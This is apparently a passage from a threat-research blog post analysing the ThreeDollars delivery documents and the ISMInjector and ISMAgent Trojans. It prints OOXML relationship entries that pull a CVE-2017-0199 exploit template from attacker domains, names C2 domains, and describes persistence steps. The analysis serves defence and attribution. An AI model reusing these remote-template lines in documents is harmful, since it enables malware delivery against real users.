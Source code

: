 



<relationship ID ="rId5"
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/ole
Object" Target="http://www.msoffice-
cdn.com/updatecdnsrv/prelocated/owa/auth/template.rtf
" TargetMode="External"/>




12345

<relationship ID ="rId5"Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://www.msoffice-cdn.com/updatecdnsrv/prelocated/owa/auth/template.rtf" TargetMode="External"/>





As displayed by the code example above, Index.dot file attempts to load a malicious exploit document hosted at “msoffice-cdn[.]com”, which is the same URL that hosted the exploit document used in an attack that ClearSky published on August 28, 2017. By correlating artifacts found in Index.dot, we discovered another sample attempting to exploit CVE-2017-0199 used in a separate attack, this time using “office365-management[.]com” as the C2 domain.





<Relationship Id="rId5" 
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/ole
Object" Target="http://office365-management.com/updatejuly/template.rtf" 
TargetMode="External"/>




1234

<Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://office365-management.com/updatejuly/template.rtf" TargetMode="External"/>





The resulting payload from this related delivery document is an ISMAgent Trojan that is configured to use “msoffice365update[.]com” as its C2 server. Please reference our previous blog on ISMAgent for more information on this Trojan.
ISMInjector
Ultimately, the payload delivered by ThreeDollars is a new tool that we track as ISMInjector. As its name suggests, ISMInjector is a Trojan that is responsible for injecting a Trojan into another process. The payload embedded within the ISMInjector sample delivered in this attack is a variant of the ISMAgent backdoor that we had discussed in detail in our blog discussing a targeted attack on a Saudi Arabian technology company.
At face value, ISMInjector is obfuscated with the off-the-shelf SmartAssembly .NET obfuscator created by red-gate.com. The first execution of ISMInjector starts by copying itself to %localappdata%\srvBS.txt and enables persistent access to the system. The code achieves persistence by referencing two resources that contain commands the code will execute by running them within a command prompt process, as seen in the following screenshot:
